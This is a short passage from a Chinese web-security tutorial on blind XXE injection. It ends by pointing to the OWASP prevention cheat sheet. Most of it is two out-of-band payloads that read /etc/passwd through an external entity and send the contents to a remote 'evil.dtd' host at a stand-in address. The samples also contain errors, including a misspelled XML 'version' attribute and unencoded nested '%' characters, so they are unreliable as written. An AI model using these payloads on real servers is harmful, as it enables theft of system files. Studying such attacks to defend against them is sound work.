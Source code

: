 ## 无回显操作

无回显时可以将文件发送到远程服务器，然后读取

发送到目标服务器上的xml数据：

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % evil SYSTEM "http://www.yourip.com/evil.dtd">
  %evil;
]>
<a>&send;</a>
```

远程 evil.dtd:

```xml
<!ENTITY % all 
  "<!ENTITY send SYSTEM 'http://yourip.com/recv?data=%file;'"
>
%all;
```

首先，`%evil;`用来引用`http://yourip.com`下的`evil.dtd`，之后`evil.dtd`中的`%all`会生成`send`实体，经过`<a>`中的引用，将`%file`的内容发送至`yourip`上

其中，`&send`也可以是参数实体，这样就无需在xml文档中显式引用了

发送到目标服务器上的xml数据：

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % evil SYSTEM "http://www.yourip.com/evil.dtd">
  %evil;
]>
```

远程 evil.dtd:

```xml
<!ENTITY % all 
  "<!ENTITY % send SYSTEM 'http://yourip.com/recv?data=%file;'"
>
%all;
%send;
```

# 0x03 修复

参考 [owasp XXE PreventionCheat Sheel](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)
